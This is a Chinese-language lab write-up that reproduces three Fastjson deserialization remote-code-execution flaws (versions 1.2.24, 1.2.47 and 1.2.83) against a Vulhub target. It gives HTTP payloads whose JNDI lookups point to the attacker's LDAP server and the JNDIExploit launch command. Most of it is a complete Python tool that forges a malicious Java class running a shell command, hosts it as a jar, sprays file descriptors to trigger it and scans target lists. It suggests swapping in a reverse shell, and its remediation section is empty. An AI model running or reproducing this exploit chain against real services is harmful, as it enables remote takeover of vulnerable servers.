


| 项目          | 详情                                                                             |
| ----------- | ------------------------------------------------------------------------------ |
| **攻击机**     | Kali Linux（IP：192.168.197.128）                                                 |
| **靶机**      | Ubuntu Server 24.04（IP：192.168.197.88）                                         |
| **CVSS 评分** | Fastjson 1.2.24: 9.8（严重） / Fastjson 1.2.47: 9.8（严重） / Fastjson 1.2.83: 9.8（严重） |
| **影响组件**    | Fastjson 1.2.24 及更早版本 / Fastjson 1.2.47 及更早版本 / Fastjson 1.2.83 及更早版本          |
| **漏洞类型**    | 反序列化 RCE / JNDI 注入 / 远程类加载                                                     |
| **利用条件**    | 使用漏洞版 Fastjson 解析用户可控的 JSON 输入 + 开启 autoType（或通过特性绕过）                          |
| **核心原理**    | `@type` 字段触发 AutoType 机制，加载恶意类，结合 JNDI 注入或远程 jar 包实现代码执行                       |

## 一、漏洞原理

Fastjson 是阿里巴巴开源的一款高性能 JSON 解析器。为了方便反序列化时能恢复原来的数据类型，Fastjson 引入了 `@type` 属性。当解析 JSON 时遇到 `@type`，Fastjson 会尝试使用 `autoType` 机制实例化指定的类，并调用其 setter/getter 方法。

历代 Fastjson 漏洞的核心，都围绕着如何**突破 Fastjson 官方设置的安全限制（黑名单与白名单）**，向服务器注入恶意的 `@type` 类并触发利用链。

**1. Fastjson 1.2.24 漏洞**
1.2.24 版本未对 `autoType` 开启限制，攻击者可以直接在 JSON 中指定恶意类。经典利用链为 `com.sun.rowset.JdbcRowSetImpl`，该类在调用 `setAutoCommit` 方法时会触发 JNDI 查找，进而通过 RMI/LDAP 加载远程恶意类执行代码。

**2. Fastjson 1.2.47 漏洞**
1.2.24 之后，官方增加了黑名单机制。而 1.2.47 版本中存在一个缓存绕过漏洞：当 Fastjson 处理 `@type` 为 `java.lang.Class` 时，会将其指定的类放入全局缓存 `mappings` 中，且**不经过黑名单校验**。攻击者可以先用 `java.lang.Class` 将恶意的 `JdbcRowSetImpl` 缓存起来，随后第二次请求直接调用它，从而绕过黑名单。

**3. Fastjson 1.2.83 漏洞**
在 1.2.83 中，官方默认关闭了 `autoType` 并引入了 `safeMode`。然而，当 Fastjson 进行 `@JSONType` 注解探测时，会调用 `getResourceAsStream` 加载 `<类名>.class`。如果类名为 `jar:http://...!/POC`，JVM 会尝试从远程下载这个 jar 包。配合 `jar:file:/proc/self/fd/N` 的本地文件描述符读取，攻击者可以在完全不开 `autoType` 的情况下，实现远程类加载并执行命令。

---

## 二、漏洞复现

三个靶场的默认端口均为 `8090`。由于环境使用的是低版本 JDK，可以直接通过 JNDI 注入或远程类加载来执行命令。

### 1. Fastjson 1.2.24 远程命令执行

由于目标环境是 Java 8u102，没有 `com.sun.jndi.rmi.object.trustURLCodebase` 的限制，我们可以使用 `com.sun.rowset.JdbcRowSetImpl` 的利用链，通过 JNDI 注入来执行命令。

JNDI在**Log4j2**的那一篇博客中有提到，这里仅展示流程，如下图所示。



**① 启动本地恶意 JNDI 服务**

打开一个新的 Kali 终端，使用配置好的本地 Java 8 启动 `JNDIExploit`：
```text wrap
#说明：-i指定你的Kali IP，启动后它会监听1389端口，-p用于指定其内置HTTP服务的监听端口

java8 -jar /root/JNDIExploit.v1.2/JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.197.128 -p 8080
```

具体来说，`JNDIExploit` 启动后会在你的 Kali 上同时开启**两个服务**：
1. **LDAP 服务（默认 1389 端口）**：负责接收受害者（靶机）发来的 JNDI 查询请求。
2. **HTTP 服务（由 `-p` 指定，这里指定为 8080）**：负责托管恶意的 Java 类文件（`.class`）。


**② 发送 Payload**

在 Burp Suite 中向靶机发送 POST 请求。Payload 中利用 JNDI 指向你的 Kali 的 LDAP 服务：
```http wrap
POST / HTTP/1.1
Host: 192.168.197.88:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Connection: close
Content-Type: application/json
Content-Length: 165

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.197.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9zdWNjZXNz",
        "autoCommit":true
    }
}
```
*(注：Payload 中的 Base64 解码后为 `touch /tmp/success`)*


**③ 验证结果**

进入靶机容器查看文件是否生成：
```text wrap
docker-compose exec web ls -l /tmp
```

后续把 Payload 换成反弹shell即可，这里不再演示。

### 2. Fastjson 1.2.47 远程命令执行

1.2.47 版本增加了黑名单，但存在缓存绕过问题。利用 `java.lang.Class` 将恶意类存入缓存，从而绕过检测。

**① 启动 JNDI 服务**（同上，保持运行）
```text wrap
java8 -jar /root/JNDIExploit.v1.2/JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.197.128 -p 8080
```
**② 发送 Payload**

这版本的Payload和上面的Fastjson 1.2.24**最大的区别在于：1.2.47 多了一段 `"a"` 的代码，用来“投毒”缓存。**
```http wrap
POST / HTTP/1.1
Host: 192.168.197.88:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Connection: close
Content-Type: application/json
Content-Length: 265

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://192.168.197.128:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9zdWNjZXNz",
        "autoCommit":true
    }
}
```

完整的攻击链：
- 当 Fastjson 解析 `"a"` 字段时，它看到 `@type` 是白名单里的 `java.lang.Class`，于是放行。接着读取 `val` 的值（`com.sun.rowset.JdbcRowSetImpl`），**把它悄悄放进了全局缓存中**。
- 紧接着解析 `"b"` 字段，遇到 `@type: com.sun.rowset.JdbcRowSetImpl`。Fastjson 再次做黑名单检查，但此时它发现**缓存里已经有这个类了**，以为是安全的，就直接跳过检查，放行！
- 放行之后，自然就执行了 `dataSourceName` 和 `autoCommit`，触发 JNDI 注入。
- 后续流程就和上面的图一样了。

**③ 验证结果**

同样，检查靶机 `/tmp/success` 文件是否被成功创建。
```text wrap
docker-compose exec web ls -l /tmp
```

后续把 Payload 换成反弹shell即可，这里不再演示。
### 3. Fastjson 1.2.83 通过 `jar:` 协议远程命令执行

在这个版本中，`autoType` 已默认关闭且加入了 `safeMode`，且没有第三方 Gadget 库。传统的 JNDI 利用链基本失效。这个漏洞利用了 `jar:` 协议和 `/proc/self/fd` 的特性。

核心原理在于 `checkAutoType` 方法在进行类名校验前，会先调用 `getResourceAsStream` 进行一次 `@JSONType` 注解探测。  如果我们在 `@type` 中填入 `jar:http://...` 格式的 URL，且目标环境是 Spring Boot（其 `URLClassLoader` 会发起真实请求），目标就会去远程下载我们构造的恶意 JAR 包。

**但这面临两个限制：**

1. Fastjson 在拼接路径时会把 `.` 替换成 `/`，导致正常的 IP 地址被破坏。因此必须使用**无点十进制整数**（如 `192.168.1.1` 转为 `3232235777`）来表示 IP。
2. `jar:http://` 包含 `//`，JDK 在 Tomcat 线程下会拒绝直接定义这种类名。

**两阶段攻击方案：**

- **阶段一（下载）**：发送 `@type: jar:http://<十进制IP>:<端口>/probe!/POC`，迫使目标把恶意 JAR 下载并缓存在本地（此时会在 `/proc/self/fd/` 下生成一个文件描述符 `N`）。
- **阶段二（喷洒）**：发送 `@type: jar:file:/proc/self/fd/N!/POCN`（全单斜杠格式，属于合法类名），通过多线程遍历一段 `N` 值（在 Linux 系统中，任何打开的文件都会在 `/proc/self/fd/` 目录下生成一个快捷方式（软链接），这个快捷方式的名字就是 `N`，比如 10、15、33、128 等，我们想要执行的恶意类，现在就藏在这个编号为 `N` 的快递柜里），直到命中缓存的那个 JAR，触发恶意类执行。

以上攻击流程如下图所示。


**① 运行自动化 POC 脚本**

Vulhub 目录下已经提供了写好利用链的 `poc.py`。在本地执行：
```text wrap
python3 poc.py pwn -t http://192.168.197.88:8090/ -l 192.168.197.128 -c 'id > /tmp/success'
```
*   `pwn` 模式：真实的漏洞利用，它会执行一整套复杂的攻击链。
*   `-t`：目标靶机的 URL。
*   `-l`：你 Kali 的真实 IP（脚本会自动将其转为无点十进制表示）。
*   `-c`：要执行的命令。

> **注意**：由于该漏洞利用的特性，脚本执行过程中 HTTP 响应可能会返回 `400` 或其他错误，这是正常的现象，因为命令执行是盲打的，不依赖 HTTP 回显。

```python wrap
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import argparse
import base64
import ipaddress
import json
import os
import re
import secrets
import socketserver
import struct
import sys
import threading
import time
from concurrent.futures import ThreadPoolExecutor
from http.server import BaseHTTPRequestHandler
from urllib.parse import urlparse
import requests
requests.packages.urllib3.disable_warnings()
VERSION = "2.0.0"
def _colorize(code: str, s: str) -> str:
    return s if os.environ.get("NO_COLOR") or not sys.stdout.isatty() else f"\x1b[{code}m{s}\x1b[0m"
def red(s): return _colorize("31", s)
def green(s): return _colorize("32;1", s)
def yellow(s): return _colorize("33", s)
def cyan(s): return _colorize("36", s)
_DUR_UNITS = {"ns": 1e-9, "us": 1e-6, "µs": 1e-6, "ms": 1e-3, "s": 1.0, "m": 60.0, "h": 3600.0}
_DUR_RE = re.compile(r"(\d+(?:\.\d+)?)(ns|us|µs|ms|s|m|h)")
def parse_duration(text: str) -> float:
    s = text.strip()
    if not s or s == "0": return 0.0
    matches = _DUR_RE.findall(s)
    if matches and "".join(a + b for a, b in matches) == s:
        return sum(float(val) * _DUR_UNITS[unit] for val, unit in matches)
    try: return float(s)
    except ValueError: raise argparse.ArgumentTypeError(f"invalid duration: {text!r}")
def _fmt_dur(seconds: float) -> str:
    return f"{int(seconds)}s" if seconds == int(seconds) else f"{seconds}s"
_ALNUM = "abcdefghijklmnopqrstuvwxyz0123456789"
def rand_alnum(n: int) -> str:
    return "".join(secrets.choice(_ALNUM) for _ in range(n))
CORRELATION_ID_LEN = 20
NONCE_LEN = 13
def to_decimal_ip(host: str) -> str:
    if host.isdigit(): return host
    ip = ipaddress.ip_address(host)
    if ip.version != 4: raise ValueError(f"not an IPv4 address: {host}")
    return str(int(ip))
def decimal_host_port(base: str):
    b = base
    for pre in ("http://", "https://"):
        if b.startswith(pre):
            b = b[len(pre):]
            break
    if ":" not in b: raise ValueError(f"oob host must be host:port: {base!r}")
    host, port = b.rsplit(":", 1)
    return to_decimal_ip(host), port
def http_internal(dec_ip: str, port, name: str, entry: str) -> str:
    return f"jar:http://{dec_ip}:{port}/{name}!/{entry}"
def file_internal(entry: str, n: int) -> str:
    return f"jar:file:/proc/self/fd/{n}!/{entry}{n}"
def dot_type(slash_internal_name: str) -> str:
    return slash_internal_name.replace("/", ".")
class _CP:
    def __init__(self):
        self.entries = []
        self.cache = {}
    def _add(self, key, raw):
        if key in self.cache: return self.cache[key]
        self.entries.append(raw)
        idx = len(self.entries)
        self.cache[key] = idx
        return idx
    def utf8(self, s):
        b = s.encode("utf-8")
        return self._add(("u", s), b"\x01" + struct.pack(">H", len(b)) + b)
    def integer(self, v): return self._add(("i", v), b"\x03" + struct.pack(">i", v))
    def cls(self, name): return self._add(("c", name), b"\x07" + struct.pack(">H", self.utf8(name)))
    def string(self, s): return self._add(("s", s), b"\x08" + struct.pack(">H", self.utf8(s)))
    def nat(self, name, desc): return self._add(("n", name, desc), b"\x0c" + struct.pack(">HH", self.utf8(name), self.utf8(desc)))
    def methodref(self, cls, name, desc): return self._add(("m", cls, name, desc), b"\x0a" + struct.pack(">HH", self.cls(cls), self.nat(name, desc)))
    def to_bytes(self): return struct.pack(">H", len(self.entries) + 1) + b"".join(self.entries)
def gen_class(internal_name: str, cmd: str) -> bytes:
    cp = _CP()
    this_c = cp.cls(internal_name)
    obj_c = cp.cls("java/lang/Object")
    code_u = cp.utf8("Code")
    init_n = cp.utf8("<init>")
    void_d = cp.utf8("()V")
    clinit_n = cp.utf8("<clinit>")
    run_n = cp.utf8("run")
    obj_init = cp.methodref("java/lang/Object", "<init>", "()V")
    run_ref = cp.methodref(internal_name, "run", "()V")
    getrt = cp.methodref("java/lang/Runtime", "getRuntime", "()Ljava/lang/Runtime;")
    execm = cp.methodref("java/lang/Runtime", "exec", "([Ljava/lang/String;)Ljava/lang/Process;")
    strcls = cp.cls("java/lang/String")
    s0, s1, scmd = cp.string("/bin/sh"), cp.string("-c"), cp.string(cmd)
    ann_type = cp.utf8("Lcom/alibaba/fastjson/annotation/JSONType;")
    rva = cp.utf8("RuntimeVisibleAnnotations")
    asm_name = cp.utf8("asm")
    false_int = cp.integer(0)
    def code_attr(max_stack, max_locals, code):
        body = struct.pack(">HH", max_stack, max_locals) + struct.pack(">I", len(code)) + code + struct.pack(">H", 0) + struct.pack(">H", 0)
        return struct.pack(">H", code_u) + struct.pack(">I", len(body)) + body
    def method(flags, name_i, desc_i, ca):
        return struct.pack(">HHH", flags, name_i, desc_i) + struct.pack(">H", 1) + ca
    init_code = (b"\x2a" + b"\xb7" + struct.pack(">H", obj_init) + b"\xb8" + struct.pack(">H", run_ref) + b"\xb1")
    m_init = method(0x0001, init_n, void_d, code_attr(1, 1, init_code))
    clinit_code = b"\xb8" + struct.pack(">H", run_ref) + b"\xb1"
    m_clinit = method(0x0008, clinit_n, void_d, code_attr(1, 0, clinit_code))
    run_code = (
        b"\xb8" + struct.pack(">H", getrt) + b"\x06" + b"\xbd" + struct.pack(">H", strcls) +
        b"\x59\x03\x13" + struct.pack(">H", s0) + b"\x53" + b"\x59\x04\x13" + struct.pack(">H", s1) + b"\x53" +
        b"\x59\x05\x13" + struct.pack(">H", scmd) + b"\x53" + b"\xb6" + struct.pack(">H", execm) + b"\x57" + b"\xb1"
    )
    m_run = method(0x0008, run_n, void_d, code_attr(5, 0, run_code))
    annotation = (struct.pack(">H", ann_type) + struct.pack(">H", 1) + struct.pack(">H", asm_name) + b"Z" + struct.pack(">H", false_int))
    class_ann = (struct.pack(">H", rva) + struct.pack(">I", 2 + len(annotation)) + struct.pack(">H", 1) + annotation)
    out = b"\xca\xfe\xba\xbe" + struct.pack(">HH", 0, 50) + cp.to_bytes() + struct.pack(">H", 0x21)
    out += struct.pack(">H", this_c) + struct.pack(">H", obj_c) + struct.pack(">H", 0) + struct.pack(">H", 0)
    out += struct.pack(">H", 3) + m_init + m_clinit + m_run + struct.pack(">H", 1) + class_ann
    return out
def _jar_bytes(entries) -> bytes:
    import io, zipfile
    buf = io.BytesIO()
    with zipfile.ZipFile(buf, "w", zipfile.ZIP_STORED) as zf:
        for name, data in entries.items(): zf.writestr(name, data)
    return buf.getvalue()
def build_probe_jar(dec_ip, port, name, entry, cmd, spray, fd_low, fd_high) -> bytes:
    entries = {entry + ".class": gen_class(http_internal(dec_ip, port, name, entry), cmd)}
    if spray:
        for n in range(fd_low, fd_high): entries[f"{entry}{n}.class"] = gen_class(file_internal(entry, n), cmd)
    return _jar_bytes(entries)
class _JarServer(socketserver.ThreadingTCPServer):
    allow_reuse_address = True
    daemon_threads = True
def serve_jar(port: int, jar: bytes, verbose: bool) -> _JarServer:
    class Handler(BaseHTTPRequestHandler):
        def do_GET(self):
            self.send_response(200)
            self.send_header("Content-Type", "application/java-archive")
            self.send_header("Content-Length", str(len(jar)))
            self.end_headers()
            try: self.wfile.write(jar)
            except: pass
            if verbose: print(f"{cyan('[http]')} served jar ({len(jar)} B) to {self.client_address[0]}")
        def log_message(self, *args): pass
    httpd = _JarServer(("0.0.0.0", port), Handler)
    threading.Thread(target=httpd.serve_forever, daemon=True).start()
    return httpd
class InteractshError(Exception): pass
class InteractshClient:
    def __init__(self, oob_url: str, timeout: float):
        u = urlparse(oob_url)
        if not u.scheme or not u.netloc: raise InteractshError(f"invalid oob url {oob_url!r}")
        self.base = f"{u.scheme}://{u.netloc}"
        self.corr_id = rand_alnum(CORRELATION_ID_LEN)
        self.secret = rand_alnum(32)
        from cryptography.hazmat.primitives.asymmetric import rsa
        self.priv = rsa.generate_private_key(public_exponent=65537, key_size=2048)
        self.timeout = timeout
        self.session = requests.Session()
    def new_name(self) -> str: return self.corr_id + rand_alnum(NONCE_LEN)
    def _encode_public_key(self) -> str:
        from cryptography.hazmat.primitives.serialization import Encoding, PublicFormat
        der = self.priv.public_key().public_bytes(Encoding.DER, PublicFormat.SubjectPublicKeyInfo)
        b64 = base64.b64encode(der).decode("ascii")
        lines = [b64[i: i + 64] for i in range(0, len(b64), 64)]
        pem = "-----BEGIN RSA PUBLIC KEY-----\n" + "\n".join(lines) + "\n-----END RSA PUBLIC KEY-----\n"
        return base64.b64encode(pem.encode("ascii")).decode("ascii")
    def register(self) -> None:
        body = {"public-key": self._encode_public_key(), "secret-key": self.secret, "correlation-id": self.corr_id}
        resp = self.session.post(self.base + "/register", json=body, timeout=self.timeout, headers={"Content-Type": "application/json"})
        if resp.status_code != 200 or resp.json().get("message") != "registration successful": raise InteractshError("register failed")
    def poll(self):
        url = f"{self.base}/poll?id={self.corr_id}&secret={self.secret}"
        resp = self.session.get(url, timeout=self.timeout)
        if resp.status_code != 200: raise InteractshError("poll failed")
        pr = resp.json()
        out = []
        aes_key = pr.get("aes_key") or ""
        for d in pr.get("data") or []:
            try:
                plain = self._decrypt(aes_key, d)
                it = json.loads(plain.strip())
                if isinstance(it, dict): out.append(it)
            except: pass
        for s in (pr.get("extra") or []) + (pr.get("tlddata") or []):
            if s:
                try:
                    it = json.loads(s)
                    if isinstance(it, dict): out.append(it)
                except: pass
        return out
    def deregister(self) -> None:
        body = {"correlation-id": self.corr_id, "secret-key": self.secret}
        try: self.session.post(self.base + "/deregister", json=body, timeout=self.timeout)
        except: pass
    def _decrypt(self, aes_key_b64: str, msg_b64: str) -> bytes:
        from cryptography.hazmat.primitives import hashes
        from cryptography.hazmat.primitives.asymmetric import padding
        from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
        wrapped = base64.b64decode(aes_key_b64)
        key = self.priv.decrypt(wrapped, padding.OAEP(mgf=padding.MGF1(hashes.SHA256()), algorithm=hashes.SHA256(), label=None))
        ct = base64.b64decode(msg_b64)
        if len(ct) < 16: raise ValueError("ciphertext too short")
        cipher = Cipher(algorithms.AES(key), modes.CTR(ct[:16]))
        dec = cipher.decryptor()
        return dec.update(ct[16:]) + dec.finalize()
def ghost_hex_digit(n: int) -> str: return chr(0xFF10 + n) if n < 10 else chr(0xFF41 + (n - 10))
def ghost_escape(s: str) -> str:
    out = []
    for ch in s:
        code = ord(ch)
        out.append("\\u")
        for shift in (12, 8, 4, 0): out.append(ghost_hex_digit((code >> shift) & 0xF))
    return "".join(out)
def build_body(at_type: str, ghost: bool) -> bytes:
    if ghost: return ('{"' + ghost_escape("@type") + '":"' + ghost_escape(at_type) + '","x":1}').encode("utf-8")
    return ('{"@type":"' + at_type + '","x":1}').encode("utf-8")
def parse_proxy(s: str):
    if "://" not in s: s = "http://" + s
    u = urlparse(s)
    if not u.hostname: raise ValueError(f"proxy has no host: {s!r}")
    return u.scheme, u.netloc, f"{u.scheme}://{u.netloc}"
def clip(s: str, n: int) -> str: return s if len(s) <= n else s[:n] + "…"
def first_line(s: str) -> str: return s.split('\n')[0].split('\r')[0]
def snippet(body: str) -> str: return clip(re.sub(r"\s+", " ", body).strip(), 120)
def load_targets(single, file):
    out = list(single or [])
    if file:
        with open(file, "r", encoding="utf-8") as f:
            for ln in f.read().split("\n"):
                if ln.strip() and not ln.strip().startswith("#"): out.append(ln.strip())
    return out
def parse_headers(items):
    headers = {}
    for raw in items or []:
        name, sep, value = raw.partition(":")
        if not sep or not name.strip(): raise ValueError(f"invalid header: {raw!r}")
        headers[name.strip()] = value.lstrip()
    return headers
def http_post(session, url, body, headers, timeout, proxies):
    hdrs = {"Content-Type": "application/json"}
    hdrs.update(headers or {})
    return session.post(url, data=body, headers=hdrs, timeout=timeout, proxies=proxies, verify=False, allow_redirects=False)
def run_scan(cfg) -> int:
    c = InteractshClient(cfg["oob"], cfg["timeout"])
    try: dec_ip, port = decimal_host_port(c.base)
    except ValueError as e: raise SystemExit(f"{red('error:')} oob host must be IPv4: {e}")
    c.register()
    print(f"{cyan('[*]')} registered with {c.base} (correlationID={c.corr_id}, oob={dec_ip}:{port})")
    try:
        proxies = None
        if cfg["proxy"]:
            _, _, norm = parse_proxy(cfg["proxy"])
            proxies = {"http": norm, "https": norm}
        target_session = requests.Session()
        tasks, labels = {}, []
        for tgt in cfg["targets"]:
            name = c.new_name()
            at_type = dot_type(http_internal(dec_ip, port, name, cfg["entry"]))
            tasks[name] = tgt
            labels.append(tgt)
            http_post(target_session, tgt, build_body(at_type, cfg["ghost"]), cfg["headers"], cfg["timeout"], proxies)
        print(f"{cyan('[*]')} sent {len(labels)} probe(s); polling {_fmt_dur(cfg['wait'])} for callbacks...")
        confirmed = {}
        deadline = time.monotonic() + cfg["wait"]
        while True:
            try: its = c.poll()
            except InteractshError: its = []
            for it in its:
                uid = str(it.get("unique-id", ""))
                label = tasks.get(uid.lower())
                if label and not confirmed.get(uid):
                    confirmed[uid] = True
                    print(f"\n{green('[+] VULNERABLE')} {label} via {it.get('protocol')} callback from {it.get('remote-address')}")
            if time.monotonic() > deadline: break
            time.sleep(cfg["interval"])
        vuln = {tasks[uid]: True for uid in confirmed}
        print(f"\n{cyan('[*]')} done: {len(vuln)}/{len(labels)} probe(s) vulnerable")
        return len(vuln)
    finally: c.deregister()
def run_pwn(cfg) -> int:
    try: dec_ip = to_decimal_ip(cfg["lhost"])
    except ValueError as e: return 2
    entry = cfg["entry"] or ("POC" + rand_alnum(4))
    url = cfg["target"]
    jar = build_probe_jar(dec_ip, cfg["lport"], cfg["name"], entry, cfg["cmd"], True, cfg["fd_low"], cfg["fd_high"])
    print(f"{green('[+]')} built probe jar: {len(jar)} bytes, spray {cfg['fd_high'] - cfg['fd_low']} fd classes")
    try: httpd = serve_jar(cfg["lport"], jar, cfg["verbose"])
    except OSError: return 2
    print(f"{green('[+]')} hosting jar on 0.0.0.0:{cfg['lport']}")
    session = requests.Session()
    adapter = requests.adapters.HTTPAdapter(pool_connections=max(1, cfg["concurrency"]), pool_maxsize=max(1, cfg["concurrency"]))
    session.mount("http://", adapter)
    session.mount("https://", adapter)
    try:
        http_dot = dot_type(http_internal(dec_ip, cfg["lport"], cfg["name"], entry))
        print(f"{cyan('[*]')} STAGE 1 -> {url} downloading {http_dot}")
        http_post(session, url, build_body(http_dot, cfg["ghost"]), cfg["headers"], cfg["timeout"], None)
        lo, hi = cfg["fd_low"], cfg["fd_high"]
        print(f"{cyan('[*]')} STAGE 2 -> spraying fd [{lo},{hi}) blindly")
        def spray_one(n):
            http_post(session, url, build_body(dot_type(file_internal(entry, n)), cfg["ghost"]), cfg["headers"], cfg["timeout"], None)
        with ThreadPoolExecutor(max_workers=max(1, cfg["concurrency"])) as ex:
            list(ex.map(spray_one, range(lo, hi)))
        print(f"{green('[+]')} STAGE 2 done: command has run")
        return 0
    finally: httpd.shutdown()
def cmd_scan(args) -> int:
    targets = load_targets(args.target, args.file)
    cfg = {"oob": args.oob, "targets": targets, "headers": parse_headers(args.header), "proxy": args.proxy, "ghost": args.ghost, "entry": args.entry, "timeout": args.timeout, "wait": args.wait, "interval": args.interval}
    try: return 1 if run_scan(cfg) > 0 else 0
    except Exception as e: return 1
def cmd_pwn(args) -> int:
    cfg = {"target": args.target, "lhost": args.lhost, "lport": args.lport, "name": args.name, "entry": args.entry, "cmd": args.cmd, "ghost": args.ghost, "headers": parse_headers(args.header), "fd_low": args.fd_low, "fd_high": args.fd_high, "timeout": args.timeout, "concurrency": args.concurrency, "verbose": args.verbose}
    return run_pwn(cfg)
def build_parser() -> argparse.ArgumentParser:
    parser = argparse.ArgumentParser(prog="fastjson-1.2.83-poc")
    sub = parser.add_subparsers(dest="command", required=True)
    w = sub.add_parser("pwn", aliases=["p"])
    w.add_argument("-t", "--target", required=True)
    w.add_argument("-l", "--lhost", default="127.0.0.1")
    w.add_argument("-p", "--lport", type=int, default=8000)
    w.add_argument("-c", "--cmd", default="id > /tmp/success")
    w.add_argument("--name", default="probe")
    w.add_argument("--entry", default=None)
    w.add_argument("--ghost", action="store_true")
    w.add_argument("-H", "--header", action="append", default=[])
    w.add_argument("--fd-low", type=int, default=10)
    w.add_argument("--fd-high", type=int, default=300)
    w.add_argument("--concurrency", type=int, default=16)
    w.add_argument("--timeout", type=parse_duration, default="8s")
    w.add_argument("-v", "--verbose", action="store_true")
    w.set_defaults(func=cmd_pwn)
    p = sub.add_parser("scan", aliases=["s"])
    p.add_argument("-o", "--oob", default=os.environ.get("OOB_URL"), required="OOB_URL" not in os.environ)
    p.add_argument("-t", "--target", action="append", default=[])
    p.add_argument("-f", "--file")
    p.add_argument("-H", "--header", action="append", default=[])
    p.add_argument("-x", "--proxy")
    p.add_argument("--ghost", action="store_true")
    p.add_argument("--entry", default="POC")
    p.add_argument("--timeout", type=parse_duration, default="8s")
    p.add_argument("--wait", type=parse_duration, default="10s")
    p.add_argument("--interval", type=parse_duration, default="2s")
    p.add_argument("-v", "--verbose", action="store_true")
    p.set_defaults(func=cmd_scan)
    return parser
if __name__ == "__main__":
    try: sys.exit(build_parser().parse_args().func(build_parser().parse_args()))
    except KeyboardInterrupt: sys.exit(130)
```


**② 验证结果**

进入容器查看命令执行结果：
```text wrap
docker-compose exec web cat /tmp/success
```
如果输出 `uid=0(root) gid=0(root) groups=0(root)`，则证明利用成功。

后续把命令中的`-c`后面的 `'id > /tmp/success'`换成反弹shell即可，这里不再演示。

---

## 三、漏洞原理总结

| 漏洞版本 | 绕过机制 | 核心利用链 | 触发条件 |
|---------|---------|-----------|---------|
| **1.2.24** | 无（直接触发） | `JdbcRowSetImpl` + JNDI | 未开启 autoType 限制 |
| **1.2.47** | `java.lang.Class` 全局缓存绕过黑名单 | `JdbcRowSetImpl` + JNDI | 使用 1.2.47 及以下版本 |
| **1.2.83** | `@JSONType` 注解探测 + `jar:` 协议 | 下载远程 Jar + 缓存 fd 读取 | 未开启 `safeMode` |

**核心本质**：只要 Fastjson 的 `@type` 解析机制存在缺陷，且允许加载攻击者可控的类，就能被利用。从直接加载，到绕过黑名单，再到利用 JDK 底层协议，Fastjson 的对抗史就是一部 Java 反序列化绕过史。

---
## 四、修复方案

